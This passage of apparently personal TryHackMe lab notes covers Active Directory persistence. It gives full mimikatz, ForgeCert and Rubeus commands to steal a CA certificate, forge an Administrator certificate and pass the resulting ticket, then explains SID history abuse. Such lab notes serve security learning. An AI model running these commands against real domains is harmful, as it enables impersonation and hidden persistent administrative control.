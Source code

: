 			- View certificates using `crypto::certificates /systemstore:local_machine`.
			- Some certificates will not allow it being exported, mimikatz allows us to patch memory to make these keys exportable
				- `privilege::debug`
				- `crypto::capi`
				- `crypto::cng`
			- Export the certificates using `crypto::certificates /systemstore:local_machine /export`
			- In order to export the private key, a password must be set to encrypt the certificate, by default mimikatz uses `mimikatz` as password.
			- Copying the certificate to the attacking machine using `scp Administrator@thmdc.za.tryhackme.loc:C:/Users/Administrator/<cert-name> ./`.
			- Generate our own certificate using `ForgeCert.exe --CaCertPath <certificate> --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123`
				- `CaCertPath` the path to the exported certificate.
				- `CaCertPassword` the password used to encrypt the certificate.
				- `Subject` the subject or common name of the certificate.
				- `SubjectAltName` this is the User Principle Name (UPN) of the account we want to impersonate with this certificate. Has to be a legitimate user.
				- `NewCertPath` the path to where ForgeCert will store the new certificate.
				- `NewCertPassword` the new password that the certificate will be encrypted with.
			- Use `Rubeus` to request a TGT using the certificate to verify that the certificate is trusted `Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path-to-cert> /password:<cert-pass-file> /outfile:<name-of-file-to-write-tgt-to>.kirbi /domain:za.tryhackme.loc /dc:<dc-ip>`
				- `/user` the user that we will impersonate and has to match the UPN for the certificate we generated.
				- `/enctype` the certificate encryption type, important for evasion.
				- `/certificate` path to generated certificate.
				- `/password` password of the cert file.
				- `/outfile` the file where our TGT will be stored.
				- `/domain` the FQDN of the domain
				- `/dc` DC IP, it is best to select a DC that has a CA service running.
			- Load the created ticket in mimikatz
				- `.\mimikatz.exe`
				- `kerberos::ptt <ticket-name>`
			- Check ticket is applied using `dir \\thmdc.za.tryhackme.loc\c$\`.
- ## *Persistence Through SID History*
	- Security Identifiers (SID) are used to track the security principal and the account's access when connecting to resources. There is, however, an interesting attribute on accounts called the SID history. 
	- SID history is used to enable access for an account to effectively be cloned to another. This becomes useful when an organisation is busy performing an AD migration as it allows users to retain access to the original domain while they are being migrated to the new one.
	- In the new domain, the user would have a new SID, but we can add the user's existing SID in the SID history, which will still allow them to access resources in the previous domain using their new account. While SID history is good for migrations, we, as attackers, can also abuse this feature for persistence.
	- SID history is not restricted to only including SIDs from other domains. With the right permissions, we can just add a SID of our current domain to the SID history of an account we control. Some interesting notes about this persistence technique
		- We normally require Domain Admin privileges or the equivalent thereof to perform this attack.
		- When the account creates a logon event, the SIDs associated with the account are added to the user's token, which then determines the privileges associated with the account. This includes group SIDs.
		- We can take this attack a step further if we inject the Enterprise Admin SID since this would elevate the account's privileges to effective be Domain Admin in all domains in the forest.
		- Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group. Making this a very sneaky method of persistence.
	- #### *Forging History*
		- Check the low-privileged user SID history, and make sure it doesn't contain anything `Get-ADUser <username> -properties sidhistory,memberof`.
		- Get the SID of the Domain Admins group using `Get-ADGroup "Domain Admins"`.
		- Use the [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the `ntds.dit` file, the AD database where all information is stored